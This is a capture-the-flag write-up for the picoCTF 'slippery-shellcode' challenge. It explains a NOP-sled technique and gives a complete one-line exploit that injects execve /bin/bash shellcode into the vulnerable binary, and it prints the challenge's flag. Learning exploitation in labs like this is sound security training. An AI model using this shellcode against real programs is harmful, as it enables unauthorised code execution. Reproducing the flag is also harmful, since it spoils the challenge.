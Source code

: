 # slippery-shellcode
This [program](vuln) is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_4_64839254839978b32eb661ca92071d48 on the shell server. [Source](vuln).

## Hint
None

## Solution
Like the handy-shellcode challenge, this program executes the input we send, however, it does it in a more interesting way:
```c
  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();
```
It assigns a random "offset" from 1 to 256, adds that to the location of the beginning of the buffer, and executes it from there. This means it will execute the shellcode we pass in from a random location: anywhere between 1 to 256 bytes from the beginning. However, we can fill in the beginning of the buffer with 256 bytes of NOP characters (\x90), or any opcodes really that don't mess with the actual shellcode. This allows us to bypass the random executing of our buffer, as the program will always hit one of the 256 nop characters, "slide down" these nop's and hit our shellcode no matter what. We then keep the pipe open with `cat -` like before. Thus our payload looks like this (shellcode from http://shell-storm.org/shellcode/files/shellcode-606.php):
```(python -c "print '\x90'*256+'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'"; cat -)|  ./vuln```
## Details
Completed: *During competition*
Points: **200**
Done by: Cyril
Flag: `picoCTF{sl1pp3ry_sh311c0d3_3d79d4df}`
